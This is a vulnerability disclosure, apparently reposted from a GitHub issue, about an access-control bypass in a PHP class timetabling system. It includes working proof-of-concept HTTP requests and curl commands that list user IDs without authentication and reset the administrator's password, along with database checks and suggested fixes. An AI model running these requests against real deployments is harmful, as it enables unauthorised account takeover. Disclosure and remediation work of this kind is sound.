




# CVE-2026-85512

- 来源仓库：[justconter/cve](https://github.com/justconter/cve)
- Issue：[#7](https://github.com/justconter/cve/issues/7)
- 原始标题：SourceCodester Class and Exam Timetabling System V1.0 /session.php Access Control Bypass Leads to Arbitrary User Account Takeover
- 备注：仓库第 7 篇报告按编号序列推测对应 CVE-2026-16153；CVE-2026-85512 未在官方 NVD 查询到，编号待确认。

Report file: https://github.com/justconter/cve/blob/main/sourcecodester_class_exam_timetabling_system/session_php_access_control_bypass/README.md

# sourcecodester Class and Exam Timetabling System Project V1.0 /session.php Access Control Bypass Leads to Arbitrary User Account Takeover

# NAME OF AFFECTED PRODUCT(S)

* Class and Exam Timetabling System

## Vendor Homepage

* https://www.sourcecodester.com/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

* justconter

## Vulnerable File

* `/admin/session.php`
* `/admin/user_account.php`
* `/admin/edit_user_account.php`

## VERSION(S)

* V1.0

## Software Link

* https://www.sourcecodester.com/download-code?nid=11332&title=Class+and+Exam+Timetabling+System+in+PHP+with+Source+Code

# PROBLEM TYPE

## Vulnerability Type

* Improper Access Control
* Authentication Bypass
* Arbitrary User Account Takeover
* CWE-862: Missing Authorization

## Root Cause

* An improper access control vulnerability exists in `/admin/session.php`. The file checks whether `$_SESSION['id']` exists, but when the session is missing it only returns a client-side JavaScript redirect and does not stop server-side execution.

```php
if (!isset($_SESSION['id']) || (trim($_SESSION['id']) == '')) { ?>
<script>
window.location = "index.php";
</script>
<?php
}
```

* Because there is no `exit` after the failed session check, PHP continues executing protected pages that include `/admin/session.php`.

* The protected user list page `/admin/user_account.php` includes `/admin/session.php`, but still returns the user table and edit links to unauthenticated requests. This leaks user IDs through URLs such as:

```html
<a href="edit_user_account.php?id=4" class="btn btn-success">
```

* The protected user-editing endpoint `/admin/edit_user_account.php` also includes `/admin/session.php`, reads the `id` parameter, renders account fields from the database, and updates the selected user when `POST['update']` is present:

```php
<?php include ('session.php');?>
...
$get_id = $_GET['id'];
...
$query = mysqli_query($conn,"select * from users where userid='$get_id' ") or die(mysqli_error());
...
if (isset($_POST['update'])) {
    $name = $_POST['name'];
    $department = $_POST['department'];
    $username = $_POST['username'];
    $password = $_POST['password'];

    mysqli_query($conn,"update users set name='$name',department='$department',username='$username',password='$password' where userid='$get_id'")
        or die(mysqli_query($conn,));
    echo"Saved";
}
```

* Therefore, an unauthenticated attacker can obtain user IDs from `/admin/user_account.php`, then send a crafted POST request to `/admin/edit_user_account.php?id=<userid>` and modify arbitrary account fields, including `department`, `username`, and `password`.

## Impact

* An unauthenticated attacker can modify arbitrary user account records by controlling the id parameter in /admin/edit_user_account.php?id=<userid> and submitting the name, department, username, password, and update POST parameters.
* The attacker can set a chosen password for any target account, then use the modified credentials to attempt authentication as that user.
* If the target account is an administrator, this can lead to administrator account takeover or denial of access for the legitimate administrator.
* If the target account is a department user, this can lead to takeover of that user's department-level privileges.
* The attacker does not need to know `userid` in advance. The protected user list page `/admin/user_account.php` exposes edit links such as `edit_user_account.php?id=4`, allowing the attacker to map usernames to user IDs.

# DESCRIPTION

* During the security review of `Class and Exam Timetabling System`, I discovered that `/admin/session.php` does not enforce server-side access control. It only prints a JavaScript redirect for unauthenticated requests and then allows the protected PHP page to continue executing.
* The issue can be exploited in two steps. First, the attacker directly requests `/admin/user_account.php` without logging in and obtains `edit_user_account.php?id=<userid>` links from the returned HTML. Second, the attacker sends an unauthenticated POST request to `/admin/edit_user_account.php?id=<userid>` to modify the selected user's account fields.
* In the verified high-impact case, the attacker maps `username=ADMIN` to `userid=4` and changes the administrator password to an attacker-controlled value. The server returns `Saved`, and the database confirms that the administrator password has been changed.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability Location:

* `/admin/session.php`
* `/admin/user_account.php`
* `/admin/edit_user_account.php?id=<userid>`

## Payload:

First, obtain target user IDs from the protected user list page without authentication:

```http
GET /admin/user_account.php HTTP/1.1
Host: 127.0.0.1:8081
```

Equivalent PowerShell command:

```powershell
curl.exe -s "http://127.0.0.1:8081/admin/user_account.php" |
  findstr /N /C:"<td>Admin</td>" /C:"<td>ADMIN</td>" /C:"edit_user_account.php?id=4"
```

The unauthenticated response contains the administrator row and edit URL:

```text
<td>Admin</td>
<td>ADMIN</td>
<a href="edit_user_account.php?id=4" class="btn btn-success">
```

This exposes the mapping:

```text
username=ADMIN
userid=4
```

The current users in the tested deployment include:

```text
userid  name             department  username  password
1       Cherylda Ohiman  CIT         CIT       ohiman123
3       jemelyn          COED        COED      jemelyn
4       ching            Admin       ADMIN     admin
5       Rose ann         CIT         rose123   12345
7       Babyjean         CAS         CAS       flores
```

The following unauthenticated request changes only the administrator password and keeps the original `name`, `department`, and `username` values:

```http
POST /admin/edit_user_account.php?id=4 HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded

name=ching&department=Admin&username=ADMIN&password=PocPass123!&update=1
```

Equivalent PowerShell command:

```powershell
curl.exe -i -s -X POST "http://127.0.0.1:8081/admin/edit_user_account.php?id=4" `
  -d "name=ching" `
  -d "department=Admin" `
  -d "username=ADMIN" `
  -d "password=PocPass123!" `
  -d "update=1"
```

The same issue can be used against any other user by replacing the `id` value and submitting the target user's account fields. For example, a normal department user can be changed by sending the same request to:

```text
/admin/edit_user_account.php?id=1
```

## Reproduction Process:

### Step 1: Obtain user IDs without authentication

```powershell
curl.exe -s "http://127.0.0.1:8081/admin/user_account.php" |
  findstr /N /C:"<td>Admin</td>" /C:"<td>ADMIN</td>" /C:"edit_user_account.php?id=4"
```

Expected unauthenticated response markers:

```text
<td>Admin</td>
<td>ADMIN</td>
edit_user_account.php?id=4
```

This shows that the protected user list discloses `username=ADMIN` and the corresponding edit endpoint `/admin/edit_user_account.php?id=4`.

[SCREENSHOT 1: Unauthenticated user list response showing `ADMIN` and `edit_user_account.php?id=4`]

### Step 2: Record the original user table

```powershell
docker exec class_exam_db mariadb -uroot -prootpass db_con -e "SELECT userid,name,department,username,password FROM users ORDER BY userid;"
```

Expected records in the tested deployment:

```text
userid  name             department  username  password
1       Cherylda Ohiman  CIT         CIT       ohiman123
3       jemelyn          COED        COED      jemelyn
4       ching            Admin       ADMIN     admin
5       Rose ann         CIT         rose123   12345
7       Babyjean         CAS         CAS       flores
```

[SCREENSHOT 2: Original user table before modification]

### Step 3: Send the unauthenticated administrator password modification request

```powershell
curl.exe -i -s -X POST "http://127.0.0.1:8081/admin/edit_user_account.php?id=4" `
  -d "name=ching" `
  -d "department=Admin" `
  -d "username=ADMIN" `
  -d "password=PocPass123!" `
  -d "update=1"
```

The original unauthenticated HTTP response contains both the client-side redirect and the successful update marker:

```text
HTTP/1.1 200 OK
...
<script>
window.location = "index.php";
</script>
...
<input type="text" name="name" class ="form-control" value="ching">
<input type="text"  name="department"  class ="form-control" value="Admin">
<input type="text" name="username" class = "form-control"  value="ADMIN">
<input type="password" name="password"  class = "form-control" value="PocPass123!">
...
Saved
```

[SCREENSHOT 3: Unauthenticated POST response showing `window.location`, updated password field, and `Saved`]

### Step 4: Confirm that the administrator password was changed

```powershell
docker exec class_exam_db mariadb -uroot -prootpass db_con -e "SELECT userid,name,department,username,password FROM users WHERE userid=4;"
```

Expected modified record:

```text
userid  name   department  username  password
4       ching  Admin       ADMIN     PocPass123!
```

### Login behavior note

When testing the modified administrator credentials in the web login page, the application may display PHP warnings such as:

```text
Warning: session_start(): Cannot start session when headers already sent
Warning: Cannot modify header information - headers already sent
```

This warning is caused by the application's original login code calling `session_start()` and `header("location:...")` after HTML output has already started. It is not caused by the unauthenticated password modification request.

For non-admin department users, after modifying the target user's password through the same unauthorized update endpoint, the modified credentials can be used with that user's corresponding department login page and department-level pages. For example:

```text
CIT  -> /admin/index.php  -> /admin/home.php
COED -> /admin/index1.php -> /admin/home1.php
CAS  -> /admin/index2.php -> /admin/home2.php
```


## The following are screenshots of some specific information obtained from testing:

[SCREENSHOT 1: Unauthenticated user list response showing `ADMIN` and `edit_user_account.php?id=`]



[SCREENSHOT 2: Original user table before modification]



[SCREENSHOT 3: Unauthenticated POST response showing `window.location`, updated password field, and `Saved`]



[SCREENSHOT 4: Database confirms administrator password changed to attacker-controlled value]




# Suggested repair

1. Enforce the access control decision on the server side. If the session is missing or invalid, redirect or return an unauthorized response and immediately stop execution.

```php
<?php
include('connect.php');
session_start();

if (!isset($_SESSION['id']) || trim($_SESSION['id']) === '') {
    header('Location: index.php');
    exit;
}
?>
```

2. Apply server-side authorization checks before rendering or processing `/admin/user_account.php` and `/admin/edit_user_account.php`.

3. Do not allow unauthenticated requests to list or update user records.

4. Do not rely on JavaScript redirects for authentication or authorization checks.

5. Do not store or display plaintext passwords. Use `password_hash()` for storage and `password_verify()` for login checks.

6. Add CSRF protection for state-changing admin operations.

7. Review all admin pages that include `/admin/session.php` and confirm that protected content is not returned or modified before authorization is enforced.


